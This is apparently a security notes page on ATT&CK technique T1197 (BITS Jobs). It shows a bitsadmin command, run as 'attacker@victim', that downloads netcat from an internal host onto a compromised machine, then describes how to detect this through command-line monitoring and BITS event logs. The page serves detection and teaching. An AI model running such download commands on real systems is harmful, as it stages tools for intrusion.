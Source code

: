 ```yaml
---
description: File upload to the compromised system.
---
```


# T1197: BITS Jobs

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```c
bitsadmin /transfer myjob /download /priority high http://10.0.0.5/nc64.exe c:\temp\nc.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/bits-download.png)

## Observations

Commandline arguments monitoring:

![](../.gitbook/assets/bits-cmdline.png)

`Application Logs > Microsoft > Windows > Bits-Client > Operational` shows logs related to jobs, which you may want to monitor. An example of one of the jobs:

![](../.gitbook/assets/bits-operational-logs.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1197\",\"type\":\"link\",\"title\":\"BITS Jobs - ATT&CK for Enterprise\"}" %}

